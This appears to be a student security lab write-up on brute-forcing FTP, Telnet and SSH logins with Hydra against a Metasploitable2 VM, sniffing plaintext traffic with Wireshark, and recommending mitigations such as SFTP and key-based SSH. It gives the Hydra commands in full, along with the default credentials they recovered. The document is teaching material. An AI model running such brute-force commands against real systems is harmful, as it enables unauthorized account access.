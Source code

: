 **Labwork 1:👾Brute Force and Sniffing**
    
**🔨Tools Used**

    Hydra – for brute force attacks
    Wireshark – for sniffing and analyzing traffic
    Kali Linux – attacker machine
    Metasploitable2 – vulnerable target machine
    ftp, telnet, ssh – for manual login and testing

**Finding the Metasploit IP**

**1. Enumeration of Usernames🥐**

    Initial usernames used for brute force attacks were manually prepared in a file usernames.txt:
    - msfadmin
    - user
    - admin
    - root
    - test
    - guest

**2. Brute Force Attacks🥖**

**2.1 FTP**

    - Tool: Hydra
    - Command Used:
        hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133

    Result: Successful login found – msfadmin:msfadmin

**2.2 Telnet**

    - Tool: Hydra
    - Command Used:
        hydra -l msfadmin -P passwords.txt telnet://192.168.154.133

    Result: Successful login – msfadmin:msfadmin



**2.3 SSH**

    - Tool: Hydra
    - Command Used:
        hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133

    Problem: Hydra (or the SSH client it's using) doesn't support the older key exchange algorithms used by the Meta2 machine, which is very outdated



**3. Sniffing Network Traffic🍖**

    Use the recovered credentials to log in to the respective services


    Use Wireshark or tcpdump to capture and analyze network traffic during the session.


    Identify which protocols transmit data in plaintext and which use encryption.




    Provide evidence (e.g., screenshots) to prove which protocols are secure and which are not.
    FTP


**Telnet**



**4.Problems Encountered**

    Protocol	Problem	Solution
    FTP	None	N/A
    Telnet	Service was off initially	Enabled Telnet on Metasploitable2
    SSH	Hydra connection failed due to key mismatch	Added weak algorithm support in SSH config

**5.Mitigation Strategies**

    Protocol	Vulnerability	Secure Alternative	Why it’s better
    FTP	Sends credentials in plaintext	SFTP / FTPS	Encrypts file transfer data and credentials
    Telnet	Transmits all in plaintext	SSH	SSH encrypts communication
    SSH	Still brute-forceable	Use key-based login, strong passwords	Prevents brute force access



